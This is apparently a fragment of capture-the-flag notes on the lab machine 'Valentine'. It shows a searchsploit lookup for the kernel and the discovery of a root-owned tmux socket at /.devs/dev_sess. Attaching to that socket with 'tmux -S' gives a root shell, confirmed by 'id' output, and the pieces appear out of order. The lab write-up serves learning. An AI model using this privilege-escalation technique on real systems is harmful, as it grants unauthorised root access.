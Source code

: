 lrwxrwxrwx   1 root root   29 Dec 11  2017 vmlinuz -> boot/vmlinuz-3.2.0-23-generic


searchsploit linux 3.2.0-23


root       1028  0.0  0.1  26416  1668 ?        Ss   05:01   0:01 /usr/bin/tmux -S /.devs/dev_sess




https://www.hackingarticles.in/linux-for-pentester-tmux-privilege-escalation/


/usr/bin/tmux -S /.devs/dev_sess

root@Valentine:/.devs# id
uid=0(root) gid=0(root) groups=0(root)


hype@Valentine:/.devs$ ls -lah .
total 8.0K
drwxr-xr-x  2 root hype 4.0K Jan 22 05:01 .
drwxr-xr-x 26 root root 4.0K Feb  6  2018 ..
srw-rw----  1 root hype    0 Jan 22 05:01 dev_sess